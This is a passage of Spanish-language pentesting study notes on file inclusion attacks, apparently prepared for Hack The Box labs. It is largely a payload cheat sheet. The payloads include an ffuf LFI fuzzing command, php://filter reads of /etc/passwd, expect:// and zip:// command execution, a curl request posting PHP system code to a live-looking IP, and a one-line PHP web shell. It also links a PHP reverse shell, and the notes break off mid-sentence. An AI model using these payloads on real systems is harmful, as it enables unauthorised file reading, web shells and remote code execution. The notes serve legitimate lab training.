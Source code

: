 ```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

![[Pasted image 20230125234925.png]]

### OTHER TOOLS

- [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)
- [https://github.com/OsandaMalith/LFiFreak](https://github.com/OsandaMalith/LFiFreak)
- [https://github.com/mzfr/liffy](https://github.com/mzfr/liffy)

# CHEATSHEET HACK THE BOX

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

[https://zsahi.wordpress.com/2018/09/10/file-inclusion/](https://zsahi.wordpress.com/2018/09/10/file-inclusion/)

# REMOTE FILE INCLUSION

**LFI:** (Local File Inclusion) podemos ver archivos del mismo servidor local.

**RFI:** (Remote File Inclusion) podemos ver archivos de un servidor remoto.

Casi cualquier inclusión de archivo remoto (RFI) también puede ser una inclusión de archivo local (LFI); sin embargo, cualquier LFI puede no ser una RFI. Esto se debe principalmente a dos razones:

-   Sólo se puede controlar una parte del nombre de archivo y no toda la envoltura de protocolo (ex: `http://`, `ftp://`, `https://`)
-   La configuración puede evitar la RFI por completo. Por ejemplo, en PHP, al establecer `allow_url_include`en `0`, no será posible utilizar fuentes remotas dentro de la `include()`declaración.

Para incluir un archivo remoto en PHP, la configuración `allow_url_fopen` (habilitada de forma predeterminada) y la configuración `allow_url_include` deben estar activadas.

Entonces yo puedo usar la PHP reverse shell de Monkey Pentester:

[pentestmonkey php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Creamos un servidor con python por ejemplo:

